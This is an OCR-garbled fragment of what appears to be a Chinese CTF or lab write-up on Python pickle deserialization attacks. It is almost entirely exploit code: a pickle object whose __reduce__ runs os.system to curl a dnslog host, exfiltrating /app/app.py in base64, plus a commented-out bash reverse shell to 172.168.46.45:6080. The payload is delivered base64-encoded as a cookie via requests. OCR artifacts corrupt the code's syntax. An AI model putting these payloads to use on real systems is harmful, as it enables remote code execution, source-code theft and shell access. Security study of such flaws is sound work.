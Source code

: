 ```

*print*([s])
shadow = base64.b64encode(s)

mess = requests.get(*"http://127.0.0.1"*, cookies=dict(user=shadow))
*print*(mess.content)


```

![](README/luffy5.png)


![](README/luffy6.png)

利用dnslog回显信息

```
*import*pickle
*import*os
*import*requests
*import*base64


*class*exp(object):
    *def*__reduce__(self):
        s = *""" curl test.dnslog.link/`cat /app/app.py|base64|tr '\n' '-'` """*
*        return*(os.system, (s,))

        /# s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.168.46.45",6080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""/
/        # return (commands.getoutput, (s,))/

e = exp()
s = pickle.dumps(e)

*print*([s])
shadow = base64.b64encode(s)

```